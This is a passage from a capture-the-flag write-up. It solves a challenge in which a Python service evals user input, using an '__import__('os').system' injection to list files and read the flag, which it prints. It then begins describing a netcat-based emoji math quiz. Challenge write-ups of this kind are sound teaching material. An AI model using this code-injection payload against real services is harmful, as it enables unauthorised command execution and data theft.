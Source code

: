 Based on the `>>>` and the fact that we got back `2` from our statement (`1+1`) it looks like it's a Python service that evals/execs whatever our input is. Python is known for having unsafe eval/import exploits for weak CTF challenges, so we try that using the following:

```python
eval("__import__('os').system('ls')")
flag.txt
input_as_a_service.py
```

Which gives us the flag:

```python
eval("__import__('os').system('cat flag.txt')")
CHTB{4li3n5_us3_pyth0n2.X?!}
```

Flag is `CHTB{4li3n5_us3_pyth0n2.X?!}`

### Alien Camp
> The Ministry of Galactic Defense now accepts human applicants for their specialised warrior unit, in exchange for their debt to be erased. We do not want to subject our people to this training and to be used as pawns in their little games. We need you to answer 500 of their questions to pass their test and take them down from the inside.
>
> This challenge will raise 33 euros for a good cause.

This challenge only has an associated docker instance, no files. Start the docker instance, and it looks like we can connect to it using netcat:

```bash
nc 165.227.231.249 30226
Alien camp 👾

1. ❓
2. Take test!
>
```

So we have to play a game, where we're given a set of Emoji variables (and their values) and a set of functions we need to solve with basic math involving those variables:

```
nc 165.227.231.249 30226
Alien camp 👾

1. ❓
2. Take test!
> 1
Here is a little help:

🌞 -> 1 🍨 -> 72 ❌ -> 49 🍪 -> 90 🔥 -> 13 ⛔ -> 50 🍧 -> 25 👺 -> 25 👾 -> 16 🦄 -> 26

1. ❓
2. Take test!
> 2

You must answer 500 questions. You have only a few seconds for each question! Be fast! ⏰

Question 1:

🔥 + ❌ - 🔥 + 🍧 - 🌞  = ?

Answer: 69

Time: 4.20
Too slow! 🐌
```
